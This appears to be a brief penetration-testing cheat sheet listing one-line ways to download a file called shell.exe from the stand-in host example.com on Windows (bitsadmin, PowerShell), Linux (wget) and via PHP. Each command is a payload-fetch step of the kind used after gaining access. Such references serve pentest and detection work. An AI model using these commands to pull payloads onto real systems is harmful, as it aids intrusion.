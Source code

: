 # Windows

### CMD
```
bitsadmin /transfer shell /priority high http://example.com/shell.exe c:\temp\shell.exe
```

### PowerShell
```
powershell -command "& {(New-Object Net.WebClient).DownloadFile('http://example.com/shell.exe','c:\temp\shell.exe')}"
Invoke-WebRequest http://example.com/shell.exe -OutFile shell.exe -UseBasicParsing
```

# Linux

### Bash
```
$ wget http://example.com/shell.exe
```

# General

### PHP
```
php -e 'file_put_contents("shell.exe",file_get_contents("http://example.com/shell.exe"));'
```
